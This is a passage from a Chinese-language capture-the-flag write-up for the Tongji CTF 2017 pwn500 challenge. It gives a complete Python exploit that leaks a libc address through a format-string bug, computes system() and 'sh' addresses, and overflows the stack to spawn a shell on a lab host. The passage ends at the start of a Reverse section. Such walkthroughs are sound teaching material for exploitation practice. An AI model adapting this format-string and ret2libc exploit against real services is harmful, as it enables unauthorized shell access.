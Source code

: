 ![]({{ site.url }}/images/TongjiCTF2017wp/pwn500-libc.png)

发现有两个结果，测试后发现后一个符合目标环境特征。

需要注意的是，这个版本的`libc`中的`/bin/sh`首地址恰好带有`0x0b`，而`scanf`遇到`0x0b`会截断，所以这里要稍微变通一下，只取`/bin/sh`中的`sh`字符串即可。

至此，万事俱备。看一下`call Kid`指令地址，用来做二次调用：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn500-kidaddr.png)

最终的exploit为：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10005

libcRetOff = 0x18637 
systemOff = 0x0003a940
shellOff = 0x159010
shellcode1 = 'A' * 267 + '\xdb\x85\x04\x08'

conn = zio((IP, port))
#conn = zio("./pwn400")

# obtain the address of __libc_start_main ret
conn.writeline('%83$p' + shellcode1)
libc_ret = conn.read(10)

libc_temp = int(libc_ret, 16) - libcRetOff
systemAddr = l32(libc_temp + systemOff)
shellAddr = l32(libc_temp + shellOff)

conn.read_until("sooo\n")

# obtain shell
shellcode2 = 'A' * 272 + systemAddr + 'AAAA' + shellAddr

conn.writeline(shellcode2)
conn.interact()
```

最后获得shell及flag：

![]({{ site.url }}/images/TongjiCTF2017wp/pwn500-pwn.png)

(veni!! vidi!! vici!! boy you win:))

### 0x05 Reverse

#### Reverse 100 这是一道签到题
